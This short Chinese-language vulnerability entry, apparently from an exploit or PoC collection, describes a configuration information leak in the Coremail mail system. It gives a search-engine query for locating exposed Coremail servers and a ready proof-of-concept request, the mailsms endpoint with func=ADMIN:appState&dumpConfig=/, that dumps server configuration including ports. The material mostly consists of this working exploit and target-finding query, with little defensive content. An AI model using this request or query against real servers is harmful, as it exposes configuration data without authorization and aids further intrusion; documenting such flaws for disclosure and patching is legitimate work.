 # Coremail 配置信息泄露漏洞

## 漏洞描述

Coremail 某个接口存在配置信息泄露漏洞，其中存在端口，配置信息等

## 漏洞影响

```
Coremail 配置信息泄露漏洞
```

## 网络测绘

```
app="Coremail邮件系统"
```

## 漏洞复现

POC为

```plain
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```

![](images/202202101913188.png)


